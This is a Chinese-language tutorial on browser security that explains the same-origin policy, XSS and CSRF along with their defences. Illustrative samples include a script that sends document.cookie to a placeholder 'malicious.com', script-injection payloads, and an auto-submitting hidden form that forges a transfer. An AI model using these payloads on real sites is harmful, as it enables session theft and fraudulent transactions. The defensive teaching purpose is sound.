


# 06 浏览器中的安全问题

Web 世界是开放的，这很符合 Web 理念。但如果 Web 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

> 修改银行站点的 DOM、CSSOM 等信息；
>
> 在银行站点内部插入 JavaScript 脚本；
>
> 劫持用户登录的用户名和密码；
>
> 读取银行站点的 Cookie、IndexDB 等数据；
>
> 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，**在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全**。

## 1. 同源策略

> **如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源**。

浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面:

> 1. 同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。
>
> 2. 同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。
> 3. 同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

## 2. 安全和便利性的权衡

全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 `XSS `攻击和 `CSRF `攻击。

### 2.1 页面中可以引入第三方资源

我们在文章开头提到过，Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径**往 HTML 文件中插入恶意脚本**。


当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器.

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`3     open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码**。通过这些手段就可以大大减少 XSS 攻击。

### 2.2 跨域解决策略

## 3. 跨站脚本攻击(XSS)

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是XSS 攻击。

> XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

如果页面被注入了恶意 JavaScript 脚本：

> 1. 可以**窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
> 2. 可以**监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
> 3. 可以通过**修改 DOM**伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
> 4. 还可以**在页面内生成浮窗广告**，这些广告会严重地影响用户体验。

除了以上几种情况外，恶意脚本还能做很多其他的事情，这里就不一一介绍了。总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了。

### 3.1 存储型XSS攻击


存储型 XSS 攻击大致需要经过如下步骤：

> 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；
>
> 然后用户向网站请求包含了恶意 JavaScript 脚本的页面；
>
> 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

常见的XSS比如：服务器对关键字审核不严格，用户可以输入类似于这样的`<script src="xxx"></script>`字段储存于服务器中。当服务器渲染带有有该字段的页面，就会去下载该脚本引用的文件。

### 3.2 反射型XSS攻击

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。

在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接。比如`http://localhost:3000/?xss=<script src="xxx"></script>`。

Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。



### 3.3 基于DOM的XSS攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。



### 3.4 如何阻止XSS攻击

存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞。而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞。

但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。

所以要阻止 XSS 攻击，我们可以通过阻止**恶意 JavaScript 脚本的注入**和**恶意消息的发送**来实现。

#### 3.4.1 服务器对输入脚本进行过滤或者转码

```js
code:<script>alert('你被 xss 攻击了')</script>
```

这段代码过滤后，只留下了：

```js
code:
```

转码：

```js
code:&lt;script&gt;alert(&#39; 你被 xss 攻击了 &#39;)&lt;/script&gt;
```

经过转码之后的内容，如`<script>`标签被转换为`&lt;script&gt;`，因此即使这段脚本返回给页面，页面也不会执行这段脚本。

#### 3.4.2 充分利用CSP

虽然在服务器端执行过滤或者转码可以阻止 XSS 攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把 CSP 等策略充分地利用起来，以降低 XSS 攻击带来的风险和后果。

具体来讲 CSP 有如下几个功能：

> 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个JavaScript 文件也是无法被加载的；
>
> 禁止向第三方域提交数据，这样用户数据也不会外泄；
>
> 禁止执行内联脚本和未授权的脚本；
>
> 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

#### 3.4.3 使用HttpOnly属性

由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护Cookie 的安全。

通常服务器可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 HTTP 响应头来设置的：

```js
set-cookie: NID=189=M8q2wdgquywgudwnia;HttpOnly
```


从图中可以看出，NID 这个 Cookie 的 HttpOlny 属性是被勾选上的，所以 NID 的内容是无法通过 document.cookie 是来读取的。由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。因此一些比较重要的数据我们建议设置 HttpOnly 标志。

## 4. 跨站请求伪造攻击(CSRF)

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，**CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事**。

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

### 4.1 自动发起GET请求

```html
<!DOCTYPE html> 
<html> 
   <body> 
      <h1> 黑客的站点：CSRF 攻击演示 </h1> 
          
   </body> 
</html>
```

在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求。

### 4.2 自动发起POST请求

```html
<!DOCTYPE html>
<html>

<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id="hacker-form" action="https://time.geekbang.org/sendcoin" method="POST">
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>

  <script>
    document.getElementById('hacker-form').submit();
  </script>
</body>

</html>
```

在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

### 4.3 引诱用户点击链接

除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

```html
<div>
    
    <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_b">点击下载美女照片</a>
</div>
```

**和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击**。


### 4.4 如何防止CSRF攻击

发起 CSRF 攻击的三个必要条件：

> 1. 目标站点一定要有 CSRF 漏洞。
> 2. 用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态。
> 3. 需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛。

与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本，因此黑客是无法通过 CSRF攻击来获取用户页面数据的；其最关键的一点是要能找到服务器的漏洞，所以说对于 CSRF攻击我们主要的防护手段是提升服务器的安全性。

#### 4.4.1 充分利用Cookie的SameSite属性

SameSite 选项通常有 Strict、Lax 和 None 三个值。通常 CSRF 攻击都是从第三方站点发起的，要防止 CSRF 攻击，我们最好能实现从第三方站点发送请求时禁止 Cookie 的发送。

Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会**完全禁止第三方Cookie**。

Lax 相对宽松一点。在跨站点的情况下，**从第三方站点的链接打开**和从第三方站点**提交Get 方式的表单**这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。

如果使用 None 的话，在任何情况下都会发送 Cookie 数据。

#### 4.4.2 验证请求的来源站点

**Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址**。虽然可以通过 Referer 告诉服务器 HTTP 请求的来源，但是有一些场景是不适合将来源URL 暴露给服务器的，因此浏览器提供给开发者一个选项，可以不用上传 Referer 值。

但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了**Origin 属性**，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post方法发送请求时，都会带上 Origin 属性。

Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是Origin 和 Referer 的一个主要区别。在这里需要补充一点，Origin 的值之所以不包含详细路径信息，是有些站点因为安全考虑，不想把源站点的详细路径暴露给服务器。

因此，服务器的策略是**优先判断 Origin**，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。

#### 4.4.3 CSRF Token

在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。

```html
<!DOCTYPE html>
<html>

<body>
  <form action="https://time.geekbang.org/sendcoin" method="POST">
    <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9aj">
    <input type=" text" name="user">
    <input type="text" name="number">
    <input type="submit">
  </form>
</body>

</html>
```

在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。